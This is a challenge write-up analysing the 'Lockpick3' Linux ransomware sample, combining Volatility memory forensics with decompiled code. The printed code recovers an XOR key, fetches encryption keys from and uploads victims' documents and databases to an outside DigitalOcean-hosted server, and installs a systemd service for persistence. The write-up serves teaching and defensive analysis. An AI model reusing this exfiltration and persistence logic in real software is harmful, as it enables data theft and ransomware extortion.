



import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Sherlock Scenario

The threat actors of the Lockpick variant of Ransomware seem to have increased their skillset. Thankfully on this occasion they only hit a development, non production server. We require your assistance performing some reverse engineering of the payload in addition to some analysis of some relevant artifacts. Interestingly we can't find evidence of remote access so there is likely an insider threat.... Good luck!

Please note on the day of release this is being utilised for a workshop, however will still be available (and free).

## Analysis Process

The challenge provides us with three main files: `ubuntu-client`, `ubuntu-client-Snapshot2.vmem`, and `ubuntu-client-Snapshot2.vmsn`.

### Task 1: Please confirm the file hash of the malware? (MD5)

For the provided files, the malware here is the executable `ubuntu-client`. To obtain the MD5 hash, simply run:

```shell
$ md5sum ubuntu-client
a2444b61b65be96fc2e65924dee8febd  ubuntu-client
```

### Task 2: Please confirm the XOR string utilised by the attacker for obfuscation?

We begin by analyzing the executable file `ubuntu-client`. In the `main` function, we can see the execution logic as follows:

```c {18}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  int v4; // eax
  int v5; // eax
  int v6; // eax
  int v7; // eax
  int v8; // eax
  int v9; // eax
  unsigned int v11; // [rsp+14h] [rbp-31Ch]
  char *key; // [rsp+18h] [rbp-318h]
  _BYTE v13[256]; // [rsp+20h] [rbp-310h] BYREF
  _BYTE v14[256]; // [rsp+120h] [rbp-210h] BYREF
  _BYTE v15[264]; // [rsp+220h] [rbp-110h] BYREF
  unsigned __int64 v16; // [rsp+328h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  key = a2[1];
  v3 = strlen(key);
  xor_func((__int64)&unk_6020, 46, (__int64)key, v3);
  v4 = strlen(key);
  xor_func((__int64)&unk_6054, 7, (__int64)key, v4);
  v5 = strlen(key);
  xor_func((__int64)&unk_604E, 6, (__int64)key, v5);
  v6 = strlen(key);
  xor_func((__int64)&unk_6060, 19, (__int64)key, v6);
  v7 = strlen(key);
  xor_func((__int64)&unk_6080, 42, (__int64)key, v7);
  v8 = strlen(key);
  xor_func((__int64)&unk_60C0, 172, (__int64)key, v8);
  v9 = strlen(key);
  xor_func((__int64)&unk_6180, 108, (__int64)key, v9);
  v11 = -1;
  if ( !(unsigned int)sub_2A34(v13, v14, v15, 256LL) )
  {
    sub_2EEB(v13, v14, v15);
    v11 = 0;
  }
  sub_380B(*a2);
  return v11;
}
```

We can see that it takes `argv[1]` as the key and uses it to XOR multiple global data regions. To recover the key used, we need to analyze the memory dump file `ubuntu-client-Snapshot2.vmem`. First, we need to determine the correct profile using `volatility`:

```shell
$ python3 vol.py -f ~/Desktop/mnt/hgfs/share/lockpick3/ubuntu-client-Snapshot2.vmem banners
Volatility 3 Framework 2.23.0
Progress:  100.00               PDB scanning finished
Offset  Banner

0x32857fa8      Linux version 5.4.0-163-generic (buildd@lcy02-amd64-067) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)) #180-Ubuntu SMP Tue Sep 5 13:21:23 UTC 2023 (Ubuntu 5.4.0-163.180-generic 5.4.246)
```

The dump was taken from **Ubuntu 20.04** and uses the **5.4.0-163-generic** kernel. Alternatively, a prebuilt profile can be used from [here](https://github.com/Abyss-W4tcher/volatility3-symbols/blob/master/Ubuntu/amd64/5.4.0/163/generic/Ubuntu_5.4.0-163-generic_5.4.0-163.180_amd64.json.xz).

<div class="mx-auto"></div>

So, the key will be `xGonnaGiveIt2Ya`.

### Task 3: What is the API endpoint utilised to retrieve the key?

Inside the `main()` function, we can see that `sub_2A34` is called. Let's take a closer look at this function:

```c {23,32,35,37,39}
__int64 __fastcall connect_server_and_get_key(char *key, char *iv, char *client_id)
{
  __int64 ObjectItem; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  unsigned int v8; // [rsp+2Ch] [rbp-134h]
  __int64 v9; // [rsp+48h] [rbp-118h]
  __int64 v10; // [rsp+50h] [rbp-110h]
  __int64 v11; // [rsp+58h] [rbp-108h]
  void *ptr[2]; // [rsp+60h] [rbp-100h] BYREF
  char s[48]; // [rsp+70h] [rbp-F0h] BYREF
  char v14[64]; // [rsp+A0h] [rbp-C0h] BYREF
  char v15[120]; // [rsp+E0h] [rbp-80h] BYREF
  unsigned __int64 v16; // [rsp+158h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  v8 = -1;
  ptr[0] = malloc(1uLL);
  ptr[1] = 0LL;
  v10 = curl_easy_init(1LL);
  build_connect_request_json(v15);
  v11 = curl_slist_append(0LL, "Content-Type: application/json");
  snprintf(s, 0x2EuLL, "%s", byte_6020);
  snprintf(v14, 0x37uLL, "%s%s", s, "/connect");
  if ( v10 )
  {
    curl_easy_setopt(v10, 10002LL, v14);
    curl_easy_setopt(v10, 10015LL, v15);
    curl_easy_setopt(v10, 20011LL, sub_2E1D);
    curl_easy_setopt(v10, 10001LL, ptr);
    curl_easy_setopt(v10, 10023LL, v11);
    if ( !(unsigned int)curl_easy_perform(v10) )
    {
      v9 = cJSON_Parse(ptr[0]);                 // parse json
      ObjectItem = cJSON_GetObjectItem(v9, "key");
      snprintf(key, 0x100uLL, "%s", *(const char **)(ObjectItem + 32));
      v4 = cJSON_GetObjectItem(v9, "iv");
      snprintf(iv, 0x100uLL, "%s", *(const char **)(v4 + 32));
      v5 = cJSON_GetObjectItem(v9, "client_id");
      snprintf(client_id, 0x100uLL, "%s", *(const char **)(v5 + 32));
      if ( key )
      {
        if ( iv )
          v8 = 0;
      }
    }
  }
  free(ptr[0]);
  curl_easy_cleanup(v10);
  curl_slist_free_all(v11);
  cJSON_Delete(v9);
  return v8;
}
```

This function connects to the server URL using the `libcurl` library. The `byte_6020` variable contains the server URL, which has already been decrypted by `main()` using `XOR`. To retrieve the URL, we could simply debug the binary in IDA and set a breakpoint at address `0x2829`. However, when I tried debugging it, I ran into an issue with the `libcrypto.so.1.1` library.

Instead, we can use **IDA Python** together with the key recovered in Task 2, as shown below:

```python
import ida_bytes
import ida_nalt
key = b"xGonnaGiveIt2Ya"
base = ida_nalt.get_imagebase()
ea = base + 0x6020
print("Image base:", hex(base))
print("byte_6020:", hex(ea))
encrypted = ida_bytes.get_bytes(ea, 46)
print("Encrypted:", encrypted.hex())
url = bytes(
    value ^ key[i % len(key)]
    for i, value in enumerate(encrypted)
)
print("Decrypted:", url)
```

The result we get is: `https://plankton-app-3qigq.ondigitalocean.app/`.

### Task 4: What is the API endpoint utilised for upload of files?

After the key retrieval function is executed, we can see that it continues by calling `sub_2EEB` with three parameters: `key`, `iv`, and `client_id`. The function looks like this:

```c {11 , 21, 23, 25, 28}
unsigned __int64 __fastcall upload_and_decrypt_file(__int64 a1, __int64 a2, const char *a3)
{
  DIR *dirp; // [rsp+20h] [rbp-10C0h]
  struct dirent *v6; // [rsp+28h] [rbp-10B8h]
  stat stat_buf; // [rsp+30h] [rbp-10B0h] BYREF
  char path[8]; // [rsp+C8h] [rbp-1018h] BYREF
  char filename[16]; // [rsp+D0h] [rbp-1010h] BYREF
  unsigned __int64 v10; // [rsp+10D8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  snprintf(path, 7uLL, "%s", aW4);              // /sh
  dirp = opendir(path);
  if ( dirp )
  {
    while ( 1 )
    {
      v6 = readdir(dirp);
      if ( !v6 )
        break;
      snprintf(filename, 4096uLL, "%s/%s", aW4, v6->d_name);
      if ( !stat_func(filename, &stat_buf) )
      {
        if ( (stat_buf.st_mode & 0xF000) == 0x4000 )// if dic
        {
          if ( strcmp(v6->d_name, ".") && strcmp(v6->d_name, "..") )
            upload_and_decrypt_file(a1, a2, a3);
        }
        else if ( !(unsigned int)check_ext_file(v6->d_name) && !(unsigned int)upload_file(filename, a3) )
        {
          sub_55555555755A(filename, a1, a2);
        }
      }
    }
  }
  return __readfsqword(0x28u) ^ v10;
}
```

Here, the `aW4` variable is a string that has been decrypted by `main()` using XOR. It contains the directory that needs to be scanned, which is the `/sh` folder. The function then iterates through each entry in the folder and checks whether the file exists. It also calls another function to check the file extension:

```c {25}
__int64 __fastcall sub_5555555570D5(const char *a1)
{
  unsigned int v2; // [rsp+14h] [rbp-7Ch]
  unsigned __int64 i; // [rsp+18h] [rbp-78h]
  const char *s1; // [rsp+28h] [rbp-68h]
  char *s2[12]; // [rsp+30h] [rbp-60h]

  s2[11] = (char *)__readfsqword(40u);
  v2 = -1;
  s2[0] = ".txt";
  s2[1] = ".pdf";
  s2[2] = ".sql";
  s2[3] = ".db";
  s2[4] = ".docx";
  s2[5] = ".xlsx";
  s2[6] = ".pptx";
  s2[7] = ".zip";
  s2[8] = ".tar";
  s2[9] = ".tar.gz";
  s1 = strrchr(a1, '.');
  if ( s1 )
  {
    for ( i = 0LL; i < 0xA; ++i )
    {
      if ( !strcmp(s1, s2[i]) )
        v2 = 0;
    }
  }
  return v2;
}
```

Then, it uploads the file to the server:

```c {36, 39}
__int64 __fastcall upload_file(char *a1, const char *a2)
{
  unsigned int v3; // eax
  __int64 v4; // rdi
  unsigned int v5; // [rsp+1Ch] [rbp-1184h]
  __int64 v6; // [rsp+40h] [rbp-1160h]
  char *file_name; // [rsp+48h] [rbp-1158h]
  FILE *stream; // [rsp+50h] [rbp-1150h]
  __int64 v9; // [rsp+58h] [rbp-1148h]
  _QWORD v10[2]; // [rsp+60h] [rbp-1140h] BYREF
  struct stat stat_buf; // [rsp+70h] [rbp-1130h] BYREF
  char v12[48]; // [rsp+100h] [rbp-10A0h] BYREF
  char v13[80]; // [rsp+130h] [rbp-1070h] BYREF
  char s[32]; // [rsp+180h] [rbp-1020h] BYREF
  unsigned __int64 v15; // [rsp+1198h] [rbp-8h]

  v15 = __readfsqword(0x28u);
  v10[0] = malloc(1uLL);
  v10[1] = 0LL;
  file_name = __xpg_basename(a1);
  snprintf(s, 0x100FuLL, "X-Filename: %s", file_name);
  stream = fopen(a1, "rb");
  if ( !stream )
    return 0xFFFFFFFFLL;
  v3 = fileno(stream);
  v4 = v3;
  if ( stat_func2(v3, &stat_buf) )
  {
    fclose(stream);
    return 0xFFFFFFFFLL;
  }
  else
  {
    v9 = curl_easy_init(v4);
    v6 = curl_slist_append(0LL, s);
    snprintf(v12, 0x2EuLL, "%s", url_domain);
    if ( v9 )
    {
      snprintf(v13, 0x4BuLL, "%s%s%s", v12, "/upload/", a2);
      curl_easy_setopt(v9, 10002LL, v13);
      curl_easy_setopt(v9, 46LL, 1LL);
      curl_easy_setopt(v9, 30115LL, stat_buf.st_size);
      curl_easy_setopt(v9, 10023LL, v6);
      curl_easy_setopt(v9, 10009LL, stream);
      curl_easy_setopt(v9, 20012LL, &fread);
      curl_easy_setopt(v9, 20011LL, sub_555555556E1D);
      curl_easy_setopt(v9, 10001LL, v10);
      v5 = curl_easy_perform(v9);
    }
    curl_easy_cleanup(v9);
    curl_slist_free_all(v6);
    fclose(stream);
    return v5;
  }
}
```

We can see that the URL domain decryption logic is similar to Task 3. The URL has the following format:

```shell
https://plankton-app-3qigq.ondigitalocean.app/upload/<client_id>
```

### Task 5: What is the name of the service created by the malware?

At the end of the `main()` function, we can see that there is a function that is always executed. Its logic is shown below:

```c {21,22}
unsigned __int64 __fastcall sub_55555555780B(const char *a1)
{
  FILE *stream; // [rsp+18h] [rbp-188h]
  char s[32]; // [rsp+20h] [rbp-180h] BYREF
  char filename[48]; // [rsp+40h] [rbp-160h] BYREF
  char command[112]; // [rsp+70h] [rbp-130h] BYREF
  char format[184]; // [rsp+E0h] [rbp-C0h] BYREF
  unsigned __int64 v7; // [rsp+198h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  snprintf(s, 0x14uLL, "%s", dest);
  if ( !(unsigned int)copy_file(a1, s) )
  {
    snprintf(filename, 0x2BuLL, "%s", aWA);
    stream = fopen(filename, "wt");
    if ( stream )
    {
      snprintf(format, 0xADuLL, "%s", asc_55555555A0C0);
      fprintf(stream, format);
      fclose(stream);
      snprintf(command, 0x6DuLL, "%s", asc_55555555A180);
      system(command);
    }
  }
  return __readfsqword(0x28u) ^ v7;
}
```

We can see that it decodes the `asc_55555555A180` variable and then calls `system()` to execute it. This is most likely how the malware implements its persistence mechanism. Similar to the previous tasks, we can use **IDA Python** to decode it:

```python
import ida_bytes
import ida_nalt
key = b"xGonnaGiveIt2Ya"
base = ida_nalt.get_imagebase()
ea = base + 0x6180
print("Image base:", hex(base))
print("byte_6020:", hex(ea))
encrypted = ida_bytes.get_bytes(ea, 108)
print("Encrypted:", encrypted.hex())
url = bytes(
    value ^ key[i % len(key)]
    for i, value in enumerate(encrypted)
)
print("Decrypted:", url)
```

The result is a command string that creates and starts a service named `ubuntu_running.service`.

```shell
systemctl daemon-reload && systemctl enable ubuntu_running.service && systemctl start ubuntu_running.service
```

### Task 6: What is the technique ID utilised by the attacker for persistence?

This task is quite straightforward. We only need to search for the persistence technique, and the answer is `T1543.002`.

<div class="mx-auto"></div>

## Conclusion

This challenge was a nice combination of memory forensics and Linux malware reverse engineering. By analyzing the memory dump with Volatility, we were able to recover the XOR key used by the malware and then use it to decrypt the obfuscated strings inside the binary.

From there, the main behavior became much clearer: the malware contacts the `/connect` endpoint to retrieve the encryption key, IV, and `client_id`, scans the `/sh` directory for specific file extensions, uploads matching files to `/upload/<client_id>`, and then encrypts them locally. Finally, it establishes persistence by creating and enabling the `ubuntu_running.service` systemd service, which maps to MITRE ATT&CK technique `T1543.002`.

Overall, Lockpick3.0 shows how a relatively small amount of obfuscation can slow down analysis, but once the XOR routine and runtime artifacts are identified, the full execution flow becomes straightforward to reconstruct.

<div class="mx-auto"></div>
